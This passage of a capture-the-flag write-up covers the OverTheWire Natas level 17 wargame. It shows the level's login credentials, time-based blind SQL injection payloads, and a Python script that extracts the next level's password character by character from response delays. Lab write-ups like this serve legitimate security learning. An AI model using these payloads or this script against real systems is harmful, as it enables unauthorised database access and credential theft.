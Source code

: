 ```
conn.close()
EOF
```

### natas17

**Target:**

```
http://natas17.natas.labs.overthewire.org/index.php
natas17
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

**Vuln:** blind sqli

**Exploitation:**

Time delay based SQLi, payload used:

    # TRUE condition (username[0] = 'n'):
    natas18" and IF(ascii(substring(username,1,1))=110, sleep(3), null)#
    # FALSE condition (username[0] != 'm'):
    natas18" and IF(ascii(substring(username,1,1))=109, sleep(3), null)#

Exploit:

```
cat > natas17-exploit.py <<EOF
import os, sys
import httplib
import urllib
import base64
import string
import time

user = "natas17"
passwd = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"

authToken = urllib.quote(base64.b64encode(user + ":" + passwd))

headers = {
    "Content-type": "application/x-www-form-urlencoded",
    "Authorization": "Basic " + authToken,
}

# connection via proxy
conn = httplib.HTTPConnection("127.0.0.1", 8080)

key=""
keyLen = 32

for i in xrange(1, keyLen + 1):
    for c in string.printable:
        payload = 'natas18" and IF(ascii(substring(password,%d,1))=%d, sleep(3), null)#' % (i, ord(c))
        params = urllib.urlencode({'username': payload})
        conn.request("POST", "http://natas17.natas.labs.overthewire.org", params, headers)
        start = time.time()
        resp = conn.getresponse().read()
        roundtrip = time.time() - start
        if roundtrip > 3:
            key += c
            print key
```